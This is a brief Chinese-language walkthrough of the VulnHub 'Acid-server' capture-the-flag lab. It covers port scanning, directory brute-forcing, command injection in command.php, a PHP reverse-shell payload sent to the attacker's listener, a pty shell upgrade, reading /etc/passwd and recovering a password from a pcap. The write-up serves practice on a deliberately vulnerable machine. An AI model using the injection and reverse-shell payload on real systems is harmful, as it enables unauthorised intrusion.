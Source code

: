 # VulnHub: Acid-server
- https://www.vulnhub.com/entry/acid-server,125/

## Walkthrough
nmap掃描虛擬機ip及port，發現位於33447/tcp是開啟狀態，service為http  
`$ sudo nmap -sP 172.16.71.0/24`  
`$ sudo nmap -p1-65535 -sV 172.16.71.208`

利用DirBuster暴力掃目錄，從cake.php中找出/Magic_Box，掃/Magic_Box，發現command.php  
首先ping172.16.71.1;id發現命令成功注入，嘗試獲取shell，監聽3333port  
`$ nc -l 3333`  
用php反彈shell成功，最後payload:  
`172.16.71.1; php-r '$sock=fsockopen("172.16.71.1",3333);exec("/bin/sh-i<&3 >&3 2>&3");'`  

發現su指令無法執行，出現錯誤訊息su:must be run from a terminal，用python調用本地shell  
`$ python -c 'import pty;pty.spawn("/bin/bash")'`  
查找用戶，發現三個可疑帳號acid、saman、root，嘗試找尋用戶的可疑文件  
`$ cat /etc/passwd`  
`$ find -user acid 2>/dev/null`  
發現pcapng可疑流量檔案，下載回本地查看  

利用wireshark打開hint.pcapng，找到saman密碼1337hax0r  
利用find找到flag.txt，成功！
